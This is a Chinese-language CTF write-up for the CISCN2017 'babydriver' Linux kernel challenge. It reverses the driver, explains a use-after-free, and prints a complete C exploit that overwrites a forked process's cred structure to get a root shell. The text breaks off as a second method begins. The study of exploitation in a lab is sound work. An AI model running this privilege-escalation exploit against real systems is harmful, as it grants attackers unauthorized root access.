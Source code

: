 ```yaml
---
layout: post
title:  "kernel题目1-CISCN2017-babydriver"
date:   2019-09-24 13:54:00
categories: pwn
tags: kernel
excerpt: CISCN2017-babydriver
mathjax: true
---
```


* content
{:toc}

### 0x00 逆向分析

#### 1. 解压镜像

压缩包中包含如下
`boot.sh  bzImage  rootfs.cpio`

```
qemu-system-x86_64 -initrd rootfs.cpio -kernel bzImage -append 'console=ttyS0 root=/dev/ram oops=panic panic=1' -monitor /dev/null -m 64M --nographic  -smp     cores=1,threads=1 -cpu kvm64,+smep
```

把 -enable-kvm 去掉之后正常启动起来了

解压rootfs.cpio

```
mkdir core
cd core
mv ../rootfs.cpio rootfs.cpio.gz
gunzip ./rootfs.cpio.gz
cpio -idmv < rootfs.cpio

```

init 脚本中发现
`insmod /lib/modules/4.4.72/babydriver.ko`

#### 2. 逆向驱动文件

1. 功能分析


* babyioctl 函数 : babyioctl(fd,command,arg) 判断command ==65537 时执行如下为device_buf 重新分配内存, kmalloc的size由arg控制

```
        kfree(babydev_struct.device_buf);
        babydev_struct.device_buf = (char *)_kmalloc(v4, 37748928LL);
        babydev_struct.device_buf_len = v4;
```

* babyrelease: 释放device_buf
* babyopen: 填充device_buf  size=64 
* babywrite: copy_from_user(babydev_struct.device_buf, buffer, v4);
* babyread: copy_to_user(buffer, babydev_struct.device_buf, v4);


2. 漏洞分析
babydev_struct是全局的，多次打开设备时，会覆盖babydev_struct。同理一个设备 free babydev_struct 过后，此时另一个设备依然可以向此处写入数据。因此造成UAF漏洞。

利用思路：
* fd1中申请堆块为0x8a,和cred结构一样大（查看源码得），也可以编译一个模块得到
* 释放fd1，此时调用fork，新进程请求空间存放cred，正好得到了之前释放的空间，但UAF漏洞导致此时fd2依然可以往这段空间写值
* 使用fd2 写入足够多的0 将uid，gid都设置为0即可


编写exp如下
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stropts.h>
#include <sys/wait.h>
#include <sys/stat.h>

void main(){
    int fd1 = open("/dev/babydev",2);
    int fd2 = open("/dev/babydev",2);

    ioctl(fd1,0x10001,0x8a);
    close(fd1);
    int pid = fork();
    if(pid<0){
        printf("fork error");
        exit(0);
    }
    else if(pid==0){
        char zeros[30] = {0};
        write(fd2,zeros,28);
        if(getuid() ==0){
            puts("[+] get root");
            system("/bin/sh");
            exit(0);
        }
    }
    else
    {
        wait(NULL);
    }
    close(fd2);
    return 0;
}
```
编译程序
`gcc exp.c -o exp -static`
重打包为文件镜像
`find . | cpio -o --format=newc > ../rootfs.img`

调试查看
fd1申请0x8a之后
q
write前后对比

运行结果如下


编译模块获取cred结构大小
还有一个问题是如何知道cred的大小，一种方法是看源码，这种方法比较慢，还容易出错。另一种方法是编译一个内核模块来查看：

#include <linux/init.h>
#include <linux/module.h>
#include <linux/cred.h>

MODULE_LICENSE("Dual BSD/GPL");

static int hello_init(void)
{
    printk(KERN_ALERT "sizeof cred: %d", sizeof(struct cred));
    return 0;
}

static void hello_exit(void)
{
    printk(KERN_ALERT "exit module!");
}

module_init(hello_init);
module_exit(hello_exit);

Makefile：

obj-m := cred_size.o
KERNELBUILD := /lib/modules/$(shell uname -r)/build

modules:
    make -C $(KERNELBUILD) M=$(CURDIR) modules
clean:
    make -C $(KERNELBUILD) M=$(CURDIR) clean
来源： http://pwn4.fun/2017/08/15/Linux-Kernel-UAF/



方法2：使用tty 结构
